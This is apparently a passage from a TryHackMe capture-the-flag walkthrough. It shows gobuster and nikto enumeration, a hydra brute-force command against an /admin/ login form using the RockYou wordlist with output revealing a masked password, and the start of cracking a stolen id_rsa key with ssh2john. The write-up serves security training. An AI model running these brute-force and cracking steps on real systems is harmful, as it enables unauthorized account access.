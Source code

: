 Also see: [gobuster.log](gobuster.log) and [gobuster-admin.log](gobuster-admin.log)

### Running: `nikto`

Ran the following:

> `nikto -h x.x.x.x`

Interesting info found:

```python
TBD                                   
```

Also see: [nikto.log](nikto.log)

### Running: `hydra`

When we see that `gobuster` found a `/admin/` URL, we View Source of the page and see that the username is `admin`. So, for giggles, lets send `hydra` trying the RockYou passwords for account `admin` on that login form:

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt \
    10.10.10.10 http-post-form \
    "/admin/:user=^USER^&pass=^PASS^:F=invalid" -I 2>&1 | tee $ROOM/hydra.log
```

Sure enough, we find the password:

```bash
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-08-12 20:54:34
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://10.10.176.145:80/admin/:user=^USER^&pass=^PASS^:F=invalid
[80][http-post-form] host: 10.10.176.145   login: admin   password: ******
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-08-12 20:55:02
```

We can now log into the `/admin/` website portal where we have an `id_rsa` file, and also the web flag for the TryHackMe room. We also get a potential username `john`.

Also see: [hydra.log](hydra.log) and [id_rsa.txt](id_rsa.txt)

### John the Ripper

We have an `id_rsa` file that is password-protected. We need to get the file into a format that John the Ripper can use, so we run:

```bash
ssh2john ./id_rsa.txt > id_rsa.hash
```
